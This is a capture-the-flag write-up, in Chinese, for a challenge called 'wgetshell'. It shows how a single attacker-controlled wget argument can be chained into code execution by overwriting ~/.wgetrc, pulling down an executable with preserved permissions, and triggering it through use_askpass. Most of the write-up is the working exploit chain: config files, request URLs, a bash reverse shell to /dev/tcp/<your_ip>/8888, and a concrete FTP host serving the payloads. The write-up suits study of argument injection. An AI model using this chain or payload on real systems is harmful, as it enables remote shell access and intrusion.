


# wgetshell

## Solution

我们只可以控制wget后的一个参数。
参考wget手册，"GNU Wget 1.21.1-dirty Manual": https://www.gnu.org/software/wget/manual/wget.html
--use-askpass=command 选项可以执行外部的脚本或二进制文件来询问密码。


### 任意文件写漏洞

如果\~/.wgetrc文件存在，那么wget会自动加载其中的配置项。
正常使用wget，我们只可以在当前目录下下载文件。
wget支持http及ftp方法。

采用如下方法，使用--config=wgetrc1指定配置文件，下载wgetrc2至\~/.wgetrc
*wgetrc1*
```
input=urls1.txt
output_document=~/.wgetrc
```
*urls1.txt*
```
ftp://<your_ip>/wgetrc2
```

*exploit*
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc1
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls1.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc1
```

### 写入可执行文件

--preserve-permission选项可以让文件保留原有的权限（只支持从ftp server下载至本地时，所以这里使用http是不行的）

因为题目仅支持一个参数，使用上述步骤先将wgetrc2写入\~/.wgetrc
*wgetrc2*
```
input=urls2.txt
```

*urls2.txt*
```
ftp://<your_ip>/pwn
```

*pwn*
```
#!/bin/bash
bash -c "bash -i < /dev/tcp/<your_ip>/8888 1<&0 2<&0"
```

需要将ftp服务器上pwn文件添加x（可执行）权限。
*exploit*
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls2.txt
http://<challenge_ip>/wget.php?url=--preserve-permission
```

### 执行pwn脚本

*wgetrc3*
```
input=urls3.txt
output_document=~/.wgetrc
```

*urls3.txt*
```
ftp://<your_ip>/wgetrc4
```

*wgetrc4*
```
use_askpass=./pwn
```
*exploit*

```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc3
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls3.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc3
```

getshell
```
http://<challenge_ip>/wget.php?url=0
```

## 复现

自行搭建ftp服务器，将所需文件放入目录内，注意要设置匿名用户可访问。
记得将pwn脚本添加可执行权限。

依次访问下列参数
```
ftp://1.15.228.201/pub/wgetrc1
ftp://1.15.228.201/pub/urls1.txt
ftp://1.15.228.201/pub/urls2.txt
ftp://1.15.228.201/pub/wgetrc3
ftp://1.15.228.201/pub/urls3.txt
--config=wgetrc1
--preserve-permission
--config=wgetrc3
```
访问http://<challenge_ip>/wget.php?url=0
GETSHELL



